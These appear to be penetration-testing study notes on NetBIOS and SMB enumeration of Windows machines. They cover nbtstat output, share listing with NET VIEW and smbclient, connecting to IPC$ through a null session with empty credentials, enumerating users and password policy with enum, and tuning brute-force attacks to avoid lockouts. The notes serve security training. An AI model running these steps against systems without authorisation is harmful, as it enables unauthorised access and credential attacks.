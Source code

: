 ```bash
Name                Type      Status
----------------------------------------
ELS-WINXP     <00>  UNIQUE    Registered
WORKGROUP     <00>  GROUP     Registered
ELS-WINXP     <20>  UNIQUE    Registered
```

- `ELS-WINXP`: name
- `<00>`: workstation
- `UNIQUE`: this computer must have only one IP address assigned
- `<20>`: file sharing service is up and running on the machine
- Once an attacker knows that a machine has a 'File Server' service running, they can enumerate the shares by using `net view`:

```bash
NET VIEW <target IP>
```

- Share enumeration from a Linux Machine is provided by the *Samba suite*.
- `nmblookup -A <target ip address>` gets the same results as `NET VIEW <target_IP>`.

`smbclient` also displays *shares that are hidden when using Windows standard tools*:

```bash
# To enumerate the shares provided by a host
smbclient -L //<target_IP> -N

# -L allows to look at what services are available on a target
# -N forces the tool to not ask for a password
```

Once we have detected that the File and Printer Sharing service is active and we have enumerated the available shares on a target, it's time to check if a null session attack is possible. We can exploit `IPC$` administrative share by trying to connect to it without valid credentials.

##### Checking for Null Sessions with Windows

To connect:

```
# This tells Windows to connect to the IPC$ share by using an empty password and an empty username!
NET USE \\<target IP address>\IPC$ '' /u:''

smbclient //<target_IP>/IPC$ -N
```

##### Exploiting Null Sessions with Enum

```bash
enum -S <target>  # -S lets you enumerate the shares of a machine
enum -U <target>  # -U enumerates the users
enum -P <target>  # -P check the password policy
```

- Checking password policies before running an authentication attack lets you fin-tune an attack tool to:
  - Prevent accounts locking
  - Prevent false positives
  - Choose your dictionary or your bruteforcer configuration (as knowing the min and max lengh of a password helps to save time)
